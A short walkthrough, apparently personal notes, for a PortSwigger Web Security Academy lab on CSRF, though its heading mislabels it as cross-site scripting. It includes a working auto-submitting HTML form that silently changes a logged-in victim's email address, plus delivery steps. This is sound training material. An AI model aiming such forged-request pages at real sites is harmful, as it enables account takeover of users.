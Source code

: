 # Some cases of Cross-site scripting

## 1. CSRF vulnerability with no defenses

Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.

If you're using Burp Suite Community Edition, use the following HTML template. You can get the request URL by right-clicking and selecting "Copy URL".

```html
<html>
    <body>
        <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="hacker@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

Go to the exploit server, paste your exploit HTML into the "Body" section, and click "Store".

To verify that the exploit works, try it on yourself by clicking "View exploit" and then check the resulting HTTP request and response.

Change the email address in your exploit so that it doesn't match your own.

Click "Deliver to victim" to solve the lab.
